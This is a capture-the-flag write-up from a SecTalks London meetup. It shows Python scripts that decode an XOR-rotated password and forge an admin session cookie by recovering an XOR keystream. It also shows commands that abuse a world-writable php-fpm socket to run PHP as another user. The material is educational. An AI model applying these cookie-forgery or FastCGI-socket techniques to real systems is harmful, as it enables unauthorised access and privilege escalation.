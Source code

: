 ![Logo](/assets/images/sectalks5-0.jpg)

Last week I've been to the 5th SecTalks London meetup and I'm proud to say I've learnt something that evening and wanted to say Thank you to the creator of the night's challenge - @leigh.  I'll definitely be going again.

Below is a write-up of my solution. Hopefully by now the details of the challenge are made public so if people are still working on this I won't spoil anyone's fun by publishing this.

## Stage 0
The challenge is Christmas themed and  starts at the North Pole: 178.62.xx.xx/1.html

> 'While taking a well earned break at the Pole Star Tavern, you overhear a couple of the local elves talking about some of the security improvements they've made to Santa's distribution infrastructure this year.
Of particular interest to you is the digitisation of the naughty and nice lists, you know you haven't exactly been on your best behaviour this year, perhaps there is something you can do about that.
You snap out of your daydream to find them picking up the papers they've been glossing over and making for the door. One of them drops something. When nobody is looking you head over and pick it up.
It's a Christmas card with some writing on the front.
The writing looks like it's in some sort of code: 4cf2af119d84f698585ebf494c6ca6321d72eb211d44a49344f4f7393ca73194
There must be some more clues on the card!'

![Christmas card](/assets/images/sectalks5-1.png)

## Stage 1
The hint for this stage for "Simple stego". I've first opened the image in Gimp and noticed there was an alpha channel.  Unfortunately nothing really obvious here. Then I thought about varying colour intensity, a method used to enhance black and white images.

In Gimp it is quite easy to [vary the threshold](https://docs.gimp.org/en/gimp-tool-threshold.html): **Colours -> Threshold**. And TA DA !

![Stego revealed](/assets/images/sectalks5-2.png)

## Stage 2
We have some pseudo-code right here. Basically every character of the password was rotated left by its position and then XOR-ed with 42. So to get the initial password we need to apply the reverse operations: XOR then ROR (rotate right!):
 
```python
import binascii                                                                                                                                                                                                                          
 
# Rotate right: 0b1001 --> 0b1100
ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
(val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))
 
p = "4cf2af119d84f698585ebf494c6ca6321d72eb211d44a49344f4f7393ca73194"
v = binascii.unhexlify(p)
 
print [ ord(v[i]) for i in range(len(v))]
 
 
print "".join([ chr(ror(ord(v[i])^42,i,8)) for i in range(len(v))])
```

Running this script we get the credentials for the next stage, accessible at 178.62.xx.xx: **flag{user:elf2207,pass:snow\*\*\*}**

## Stage 3
Nothing interesting after logging in, just 2 list of names randomly changing:

![Lists](/assets/images/sectalks5-3.png)

But there is a cookie, whose value is:

*ccYKPh4W%2BAEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf%2BsWA%3D*

After URL-decoding it, we get a nice Base64 string:
*ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf+sWA=*

Nothing obvious straight-away. But it becomes interesting if we corrupt the base64 data by removing 2 characters from the end for example. There is an error message displayed:

Corrupted session data: **_{"user":"elf2207","is_admin":fals_**

Probably we removed the last letter 'e' from the encrypted version of the cookie, that's why the error. By comparing the lengths of the decoded base64 and error message, we see they are the same. So the guess is that the session data is encrypted with a sort of one-time-pad. By now you already know what's coming next :sunglasses:

I've XOR-ed the decoded data with the plain-text message to get the key, then used the key to encrypt a new session data, containing the the value true for the **is_admin** property.

```python
import base64                                                                                                                                                                                                                            
 
pt = '{"user":"elf2207","is_admin":false}'
print "[*] Decoded len: ", len(pt)
 
c = base64.b64decode("ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf+sWA=")
print "[*] Decoded cookie len: ", len(c)
 
# Probably XORed with long one-time-pad. Get the key :D
k = [ord(a) ^ ord(b) for a,b in zip(pt, c)]
print "[*] XOR key: ", k
kStr = "".join([chr(n) for n in k])
 
# Encode desired cookie
pt2 = '{"user":"elf2207","is_admin":true}'
c2 = [ord(a) ^ ord(b) for a,b in zip(pt2, kStr[:len(pt2)])]
print "Admin cookie (to be url-encoded): ", base64.b64encode("".join([chr(n) for n in c2]))
 
# Test
c3 = base64.b64decode("ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGE2Z87oqQ==")
pt3 = [ord(a) ^ ord(b) for a,b in zip(kStr, c3)]
print "[*] Decoded test cookie: ", "".join([chr(n) for n in pt3])
```

## Stage 4
Now we're in!

>After poking around for a while you realise that the system is fundamentally broken, and even admins cannot edit the naughty and nice lists!
Determined to exploit the system you press on, and discover that the elf has SSH access to the system, with the credentials "elf2207" and the password "snow***"'

Before exploiting  anything we need to understand some concepts. The machine is a Debian 8 system:

```bash
elf2207@grot0:~$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 8 (jessie)"
NAME="Debian GNU/Linux"
VERSION_ID="8"
VERSION="8 (jessie)"
ID=debian
HOME_URL="http://www.debian.org/"
SUPPORT_URL="http://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
elf2207@grot0:~$ uname -a
Linux grot0 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1 (2016-12-30) x86_64 GNU/Linux
elf2207@grot0:~$ 
```

[Nginx](https://en.wikipedia.org/wiki/Nginx) web server is running, and by looking in the configuration files we see that it will pass [FastCGI](https://en.wikipedia.org/wiki/FastCGI) requests through a pipe, which will be executed by php-fm.

```bashlocation ~ ^/index.php$ {
        fastcgi_param  SCRIPT_FILENAME    /home/webuser/index.php;
        fastcgi_param  REQUEST_METHOD     $request_method;
        fastcgi_param  REQUEST_URI        $request_uri;
 
        fastcgi_pass unix:/var/run/php-fpm.sock;
}
```

 Going back to the login message, I remembered there was something about /home/webuser directory:
 
 ```bash
$ cat /etc/motd
 
This system is poorly configured. You figure that the data you want must be in the /home/webuser directory.
```

Unfortunately we don't have read permissions to that  folder:
```
drwxr-x---  3 webuser webuser 4096 Jan 26 20:30 webuser
```

But someone else has - php-fm. To understand a bit more what's happening, Nginx is sending requests to the socket file defined in sites-available configuration file and php-fpm is picking them up and executing them:

**_Browser -> nginx -> (FastCGI) -> PHP-FPM _**

The configuration file for php-fm is readable at /usr/local/etc/php-fpm.d/www.conf. Remember the Message of the Day mentioned a _poorly configured_ system. The culprit is actually in the **insecure permissions for the socket used by nginx** to send commands to php-fm:

```
listen = /var/run/php-fpm.sock
listen.mode = 0666
```

This makes the socket world writeable! In fact it  should be readable/writeable only by the nginx user. So we can actually send commands to php-fm ourselves, that is if we first find out how to communicate with it.

```
REQUEST_METHOD=GET SCRIPT_FILENAME= /home/elf2207/hello.php cgi-fcgi -bind -connect /var/run/php-fpm.sock
 
X-Powered-By: PHP/7.2.0-dev
Content-type: text/html; charset=UTF-8
 
Well that was easy wasn't it :)
 
Have a cookie!
```

There are a few minor obstacles here, like not being able to compile stuff on the box (missing GCC) on install apps (no sudo, obviously:) but I'll let you figure out how to overcome them. It shouldn't be too difficult.

## References

**PHP-FM Architecture**

[PHP-FM](https://serversforhackers.com/video/php-fpm-configuration-the-listen-directive)

**Talking to FastCGI Server**

[Directly connecting to PHP-FPM](https://www.thatsgeeky.com/2012/02/directly-connecting-to-php-fpm/)
[Communicate with PHP FastCGI from ruby](http://stackoverflow.com/questions/16561826/communication-with-php-fastcgi-socket-from-ruby)
